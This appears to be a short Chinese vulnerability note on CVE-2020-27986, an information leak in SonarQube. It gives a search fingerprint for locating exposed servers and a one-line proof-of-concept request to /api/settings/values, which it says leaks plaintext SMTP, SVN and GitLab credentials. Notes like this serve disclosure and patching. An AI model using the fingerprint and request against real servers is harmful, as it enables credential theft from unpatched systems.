

# SonarQube values 信息泄露漏洞 CVE-2020-27986

## 漏洞描述

SonarQube 某接口存在信息泄露漏洞，可以获取部分敏感信息

## 漏洞影响

<a-checkbox checked>SonarQube</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="sonarQube-代码管理"</a-checkbox></br>

## 漏洞复现

主页如下




漏洞POC

```plain
http://xxx.xxx.xxx.xxx/api/settings/values
```


可泄露的为：明文SMTP、SVN和Gitlab等敏感信息

